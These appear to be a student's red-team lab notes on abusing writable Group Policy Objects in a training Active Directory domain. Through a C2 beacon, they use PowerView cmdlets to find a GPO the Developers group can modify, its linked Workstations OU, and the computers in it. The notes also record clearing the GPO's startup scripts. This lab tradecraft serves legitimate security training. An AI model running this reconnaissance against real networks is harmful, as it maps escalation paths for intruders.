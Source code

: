 Modifying an existing GPO that is already applied to one or more OUs is the most straightforward scenario.  To search for these, we need to enumerate all GPOs in the domain with `Get-DomainGPO` and check the ACL of each one with `Get-DomainObjectAcl`.  We want to filter any for which a principal has modify privileges such as CreateChild, WriteProperty or GenericWrite, and also want to filter out the legitimate principals including SYSTEM, Domain Admins and Enterprise Admins.


# Deleting [[2. Modify Existing GPO - broken]] scripts

open `WKSTN-2` hit the windows key and open up `Group Policy Management Editor`  and click on `vulnerable GPO`
![[Pasted image 20231219142657.png]]
`right click` -> `edit` on `vulnerable GPO` and navigate to `Windows Settings` -> `scripts` -> `startup` to see scripts  and remove them
![[Pasted image 20231219142818.png]]
open up a `cmdline` and `gupdate /force` to enforce the deletion on `WKSTN-2` and `reboot` the machine
checked to ensure no `scripts` existed upon `reboot`


on `WKSTN-2` as `SYSTEM` getting `domain-GPO`
```powershell
beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
[*] Tasked beacon to import: C:\Tools\PowerSploit\Recon\PowerView.ps1
[+] host called home, sent: 143801 bytes
```
the `results`
```powershell
beacon> powerpick Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" }
[+] host called home, sent: 10 bytes
[*] Tasked beacon to run: Get-DomainGPO | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ActiveDirectoryRights -match "CreateChild|WriteProperty" -and $_.SecurityIdentifier -match "S-1-5-21-569305411-121244042-2357301523-[\d]{4,10}" } (unmanaged)
[+] host called home, sent: 138048 bytes
[+] received output:


AceType               : AccessAllowed
ObjectDN              : CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=c
                        yberbotic,DC=io
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
OpaqueLength          : 0
ObjectSID             : 
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-569305411-121244042-2357301523-1107
AccessMask            : 131127
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```
one result was returned, next we `resolve` the GPO name and the `SID` of the principal.
in order to get the full path ran `ls` command
```powershell
beacon> ls \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\
[*] Tasked beacon to list files in \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\
[+] host called home, sent: 71 bytes
[*] Listing: \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     12/12/2023 20:33:38   {20F769F1-60E6-46E0-B9C5-C8A5CEDB8F60}
          dir     08/16/2022 12:20:45   {2BE4337D-D231-4D23-A029-7B999885E659}
          dir     08/30/2022 17:25:09   {2DFB6C00-4C35-47D9-A4EA-3FCA3A09E2B3}
          dir     08/15/2022 16:00:01   {31B2F340-016D-11D2-945F-00C04FB984F9}
																																		         ` dir     12/13/2022 12:35:45   {5059FAC1-5E94-4361-95D3-3BB235A23928}`
          dir     08/15/2022 16:00:01   {6AC1786C-016F-11D2-945F-00C04fB984F9}
          dir     08/16/2022 08:45:26   {7F8F11E4-FD94-45F7-944F-1876EB2C76C8}
          dir     08/30/2022 17:38:20   {99E523A7-4266-4DB8-A3D5-A49919A7836F}
          dir     08/15/2022 17:31:56   {B6992C25-4EBA-4D6C-AC7B-BEAFBC6A9A14}
          dir     08/15/2022 19:00:20   {BDDA1ED9-9FC6-4169-85BA-FDD51CFCDC23}
          dir     08/15/2022 17:30:07   {D5D662E4-D1BB-4362-BC9B-5125F278FB4E}
```
This shows us that members of the "Developers" group can modify "Vulnerable GPO".
```powershell
beacon> powerpick Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath
[*] Tasked beacon to run: Get-DomainGPO -Identity "CN={5059FAC1-5E94-4361-95D3-3BB235A23928},CN=Policies,CN=System,DC=dev,DC=cyberbotic,DC=io" | select displayName, gpcFileSysPath (unmanaged)
[+] host called home, sent: 138058 bytes
[+] received output:

displayname    gpcfilesyspath                                                                      
-----------    --------------                                                                      
Vulnerable GPO \\dev.cyberbotic.io\SysVol\dev.cyberbotic.io\Policies\{5059FAC1-5E94-4361-95D3-3BB235A23928}
```
We also want to know which OU(s) this GPO applies to, and by extension which computers are in those OUs.  GPOs are linked to an OU by modifying the `gPLink` property of the OU itself.  The `Get-DomainOU` cmdlet has a handy `-GPLink` parameter which takes a GPO GUID.
```powershell
beacon> powerpick Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName
[+] host called home, sent: 10 bytes
[*] Tasked beacon to run: Get-DomainOU -GPLink "{5059FAC1-5E94-4361-95D3-3BB235A23928}" | select distinguishedName (unmanaged)
[+] host called home, sent: 138048 bytes
[+] received output:

distinguishedname                         
-----------------                         
OU=Workstations,DC=dev,DC=cyberbotic,DC=io
```
Finally, to get the computers in an OU, we can use `Get-DomainComputer` and use the OU's distinguished name as a search base.
```powershell
beacon> powershell Get-DomainComputer -SearchBase "OU=Workstations,DC=dev,DC=cyberbotic,DC=io" | select dnsHostName

dnshostname              
-----------              
wkstn-1.dev.cyberbotic.io
wkstn-2.dev.cyberbotic.io
```